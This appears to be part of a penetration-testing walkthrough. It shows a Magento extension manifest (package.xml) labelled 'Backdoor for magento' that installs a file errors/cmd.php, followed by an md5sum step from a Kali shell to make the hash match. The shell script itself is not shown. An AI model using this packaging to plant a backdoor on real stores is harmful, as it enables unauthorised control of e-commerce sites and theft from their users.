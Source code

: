 `package.xml`:

```

<?xml version="1.0"?>
<package>
<name>backdoor</name>
<version>1.3.3.7</version>
<stability>devel</stability>
<licence>backdoor</licence>
<channel>community</channel>
<extends/>
<summary>Backdoor for magento</summary>
<description>Backdoor for magento</description>
<notes>backdoor</notes>
<authors>
    <author>
        <name>jvoisin</name>
        <user>jvoisin</user>
        <email>julien.voisin@dustri.org</email>
    </author>
</authors>
<date>2015-08-17</date>
<time>13:47:49</time>
<contents>
    <target name="mage">
        <dir>
            <dir name="errors">
                <file name="cmd.php" hash="c214a2fb80bab315fc328a5eff2892b5"/>
            </dir>
        </dir>
    </target>
</contents>
<compatible/>
<dependencies>
    <required>
        <php>
            <min>5.2.0</min>
            <max>6.0.0</max>
        </php>
    </required>
</dependencies>
</package>

```

It is important that the hash is created correctly for the php file as follows:

```

root@kali# md5sum errors/cmd.php 
c214a2fb80bab315fc328a5eff2892b5  errors/cmd.php

```
